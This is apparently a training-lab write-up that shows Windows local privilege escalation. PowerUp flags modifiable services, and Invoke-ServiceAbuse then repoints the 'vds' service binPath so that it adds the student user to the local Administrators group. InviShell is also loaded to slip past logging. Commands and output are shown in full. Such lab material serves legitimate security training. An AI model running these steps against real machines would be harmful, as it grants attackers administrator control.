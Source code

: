 ![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerUp.ps1`

`Invoke-AllChecks`:
```
[SNIP]

ServiceName                     : gupdate📌
Path                            : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
ModifiableFile                  : C:\
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem📌
AbuseFunction                   : Install-ServiceBinary -Name 'gupdate'
CanRestart                      : False❌
Name                            : gupdate
Check                           : Modifiable Service Files

[SNIP]

ServiceName   : vds📌
Path          : C:\Windows\System32\vds.exe
StartName     : LocalSystem📌
AbuseFunction : Invoke-ServiceAbuse -Name 'vds'
CanRestart    : True📌
Name          : vds
Check         : Modifiable Services

[SNIP]
```

`Invoke-ServiceAbuse -Name 'vds' -UserName 'tech\studentuser' -Verbose`:
```
VERBOSE: Service 'vds' original path: 'C:\Windows\System32\vds.exe'
VERBOSE: Service 'vds' original state: 'Running'
VERBOSE: Executing command 'net localgroup Administrators tech\studentuser /add'
VERBOSE: binPath for vds successfully set to 'net localgroup Administrators tech\studentuser /add'⏫
VERBOSE: Restoring original path to service 'vds'
VERBOSE: binPath for vds successfully set to 'C:\Windows\System32\vds.exe'
VERBOSE: Restarting 'vds'

ServiceAbused Command
------------- -------
vds           net localgroup Administrators tech\studentuser /add⏫
```

![Run as administrator](learning_objectives_run_as_administrator.png)
